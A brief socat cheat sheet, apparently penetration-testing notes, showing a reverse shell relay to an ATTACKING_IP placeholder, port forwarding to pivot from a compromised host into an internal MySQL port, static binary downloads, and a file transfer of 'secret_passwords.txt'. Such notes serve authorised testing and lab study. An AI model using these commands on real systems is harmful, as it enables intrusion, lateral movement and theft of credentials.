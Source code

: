 ### socat  

## Reverse Shell Relay  

After setting up a listener on the attacker machine e.g.  

`nc -lvnp 443`  

A reverse shell relay can be created on the compromised machine to pivot into a previous unreachable network.  

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`  

## Port Forward  

Compromised server is 172.0.0.5:33060 and the target is 172.16.0.10:3306.

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

## Static Binaries.  


Static Linux binary.  

https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat  

Static Windows binary.  

https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download  

## Connect.  

Connect to a server on port 80.  

`socat - TCP4:<REMOTE SERVER IP>:80`  

Set up a listener on port 443, sudo is required on ports below 1024.  

`sudo socat TCP4-LISTEN:443 STDOUT`  

## File Transfers.  

To set up a listener to share a file, fork creates a child process allowing multiple connections.  

`sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`  

Retrieve the above file.  

`socat TCP4:<REMOTE IP ADDRESS>:443 file:received_secret_passwords.txt,create`  

